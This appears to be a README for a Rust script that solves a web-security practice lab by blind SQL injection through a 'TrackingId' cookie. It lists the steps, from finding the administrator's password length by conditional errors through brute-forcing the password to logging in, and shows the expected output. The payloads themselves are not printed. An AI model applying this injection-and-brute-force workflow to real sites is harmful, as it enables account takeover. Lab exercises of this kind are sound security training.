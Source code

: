 ## Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on conditional errors
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract the csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: TrackingId
⦗1⦘ Determining password length.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 13 
            .......
❯❯ Checking if length = 20 [ Correct length: 20 ]
⦗2⦘ Brute forcing password.. 
❯❯ Checking if char at position 7 =  q [ Correct password: 16vexiq ]
❯❯ Checking if char at position 15 =  8 [ Correct password: 16vexiq6xv0go08 ]
            .......
❯❯ Checking if char at position 20 =  q [ Correct password: 16vexiq6xv0go08or4vq ]
⦗3⦘ Fetching the login page.. OK
⦗4⦘ Extracting the csrf token and session cookie.. OK
⦗5⦘ Logging in as the administrator.. OK
⦗6⦘ Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
